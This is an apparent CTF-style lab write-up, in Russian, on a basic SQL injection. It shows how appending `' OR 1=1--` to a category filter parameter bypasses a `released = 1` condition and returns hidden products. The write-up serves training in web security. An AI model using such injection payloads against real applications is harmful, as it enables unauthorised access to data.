

# SQLi — WHERE clause: вытаскиваем скрытые товары

**Lab:** SQL injection vulnerability in WHERE clause allowing retrieval of hidden data  
**Уровень:** Apprentice  
**Статус:** Solved

---

## TL;DR

В инпуте категории не фильтруется SQL-инъекция. Через простейший `OR 1=1--` обходим фильтр по `released=1` и видим скрытые товары.

---

## Исходный запрос

При выборе категории фронт отправляет:

```
GET /filter?category=Gifts
```

Бэкенд выполняет:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---

## Цель

Обойти фильтр `released = 1` и заставить приложение показать скрытые товары.

---

## Эксплуатация

Перехватываем запрос через Burp Suite или просто вручную подставляем:

```
GET /filter?category=Gifts'+OR+1=1--
```

Теперь запрос на бэке превращается в:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

`--` комментит остаток, условие `released = 1` отваливается. Селект возвращает все строки, независимо от флага релиза.

---

## Проверка

Если в ответе появились товары, которых не было до инъекции — уязвимость сработала. Лаба автоматически считается решённой.

---

## Что проверили

- Простая инъекция через GET-параметр
- Уязвимость в прямой подстановке без параметризации
- Фильтр обходится логическим выражением `OR 1=1`

---

## Скрин



---

## Вывод

Базовая SQL-инъекция, но всё ещё встречается в природе особенно в самописах, админках, устаревших CMS.